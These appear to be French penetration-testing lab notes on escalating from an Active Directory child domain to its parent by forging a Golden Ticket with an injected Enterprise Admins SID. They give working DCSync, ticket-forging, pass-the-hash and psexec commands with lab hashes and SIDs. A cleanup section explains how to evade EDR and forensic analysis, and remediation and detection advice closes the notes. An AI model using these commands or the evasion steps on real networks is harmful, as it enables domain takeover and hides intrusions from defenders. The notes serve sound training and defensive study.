

La chaîne d'attaque repose sur l'injection d'un **SID** de groupe privilégié du domaine parent dans un **Golden Ticket** émis par le domaine enfant, exploitant ainsi la confiance de domaine.



## Objectif

Exploitation des relations de confiance entre un domaine enfant et un domaine parent pour obtenir un accès administratif sur le domaine parent.

## Pré-requis

> [!danger] Prérequis
> Nécessite des droits **Domain Admin** sur le domaine enfant pour effectuer le **DCSync**.

> [!warning] Condition critique
> Le **SID History** doit être activé et non filtré par le **SID Filtering** sur le trust.

> [!tip] Astuce
> Toujours vérifier la synchronisation horaire (Clock Skew) entre la machine attaquante et le DC cible.

- Hash **NTLM** du compte **KRBTGT** du domaine enfant
- **SID** du domaine enfant
- FQDN du domaine enfant
- **SID** du groupe **Enterprise Admins** du domaine parent

## Vérification de la configuration des trusts (Get-DomainTrust)

Avant toute tentative, il est impératif de valider la direction et le type de confiance. L'accès réseau direct au DC parent est nécessaire pour valider la relation.

```powershell
Get-DomainTrust -Domain LOGISTICS.INLANEFREIGHT.LOCAL
```

```bash
# Vérification via impacket-findDelegation ou outils natifs
lookupsid.py INLANEFREIGHT.LOCAL/user@172.16.5.5
```

## Compromission domaine enfant

### DCSync avec Mimikatz (Windows)

```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

> [!danger] Danger
> L'utilisation de **DCSync** génère des logs (Event ID 4662) détectables par un SIEM.

### DCSync avec Impacket (Linux)

```bash
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

## Récupération SID

### SID du domaine enfant

```powershell
Get-DomainSID
```

```bash
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```

### SID du groupe Enterprise Admins (Parent)

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins"
```

## Création Golden Ticket

### Mimikatz (Windows)

```powershell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

### Impacket ticketer.py (Linux)

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

## Gestion des erreurs Kerberos (Clock skew)

Si les tickets sont rejetés, vérifiez l'écart temporel. Kerberos autorise généralement une dérive de 5 minutes.

```bash
# Vérification de l'heure sur le DC cible
net time \\172.16.5.5
```

## Exploitation Golden Ticket

### Vérification (Windows)

```powershell
klist
```

### Utilisation (Linux)

```bash
export KRB5CCNAME=hacker.ccache
```

## Escalade domaine parent

### DCSync avec Mimikatz (Windows)

```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\Administrator
```

### DCSync avec secretsdump.py (Linux)

```bash
secretsdump.py INLANEFREIGHT.LOCAL/administrator@172.16.5.5 -just-dc-user INLANEFREIGHT\Administrator
```

## Exploitation post-compromission

### Pass-The-Hash avec Mimikatz (Windows)

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:INLANEFREIGHT.LOCAL /ntlm:663715a1a8b957e8e9943cc98ea451b6 /run:powershell.exe
```

### Pass-The-Hash avec pth-winexe (Linux)

```bash
pth-winexe -U INLANEFREIGHT.LOCAL/Administrator%663715a1a8b957e8e9943cc98ea451b6 //172.16.5.5 cmd.exe
```

### Exploitation avec psexec.py (Linux)

```bash
psexec.py -hashes :663715a1a8b957e8e9943cc98ea451b6 INLANEFREIGHT.LOCAL/Administrator@172.16.5.5
```

## Nettoyage des traces (suppression des tickets en mémoire)

Il est crucial de purger les tickets injectés pour éviter la détection par des outils EDR ou des analyses de mémoire post-incident.

```powershell
# Windows
klist purge

# Linux
rm /tmp/krb5cc_*
unset KRB5CCNAME
```

## Stratégies de remédiation et détection

- **Remédiation** : Activer le **SID Filtering** (ou Quarantine) sur toutes les relations de confiance pour empêcher l'injection de SIDs provenant de domaines non approuvés.
- **Détection** : Surveiller les événements **Event ID 4769** (Kerberos Service Ticket Request) avec des champs `TicketOptions` suspects ou des `ExtraSIDs` présents dans les logs d'audit avancés.
- **Détection** : Surveiller les **Event ID 4662** sur les objets de domaine, indiquant une tentative de DCSync.

> [!note] Références
> Sujets liés : **Kerberos Attacks**, **DCSync Attack**, **Pass-the-Hash**, **Active Directory Trust Relationships**.